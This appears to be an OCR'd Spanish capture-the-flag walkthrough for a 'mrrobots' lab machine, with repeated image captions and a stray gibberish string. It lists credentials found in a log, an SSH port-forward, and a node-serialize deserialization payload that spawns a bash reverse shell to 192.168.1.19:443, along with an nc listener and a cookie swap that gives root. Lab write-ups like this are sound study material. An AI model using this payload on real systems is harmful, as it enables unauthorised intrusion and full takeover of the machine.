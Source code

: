 sMpam!dE#8@$$1P%bnV@fFxdqjFFG#
mrrobots

mrrobots

El archivo darkarmy.bin es una pista falsa

mrrobots

mrrobots

Port Forwarding

ssh cisco@192.168.1.17 -L 3000:127.0.0.1:3000
mrrobots

mrrobots

Necesitamos usuario y token ya que la sala es dark-ops.

Enumerando el sistema, encotramos un archivo de log.

mrrobots

Encontramos las credenciales

mrrobots

cisco:DLFJYxLLSzp1x5Ttpsffpg2awuJT5K
mrrobots

mrrobots

mrrobots

mrrobots

mrrobots

Se esta aplicando serialización.

Teniendo en cuenta que se esta usando serialización, creamos un payload personalizado para obtener una reverse shell.

{"test":"_$$ND_FUNC$$_function(){ require('child_process').execSync(\"bash -c 'bash -i >& /dev/tcp/192.168.1.19/443 0>&1'\", function puts(error, stdout, stderr) {});}()"}
mrrobots

Convertimos el payload a base64

mrrobots

Nos ponemos en escucha con netcat.

nc -lnvp 443
Remplazamos el valor de la cookie

mrrobots

Desconectamos y conectamos nuevamente el socket

mrrobots

Y de esta forma, ganamos acceso a la máquina como root.
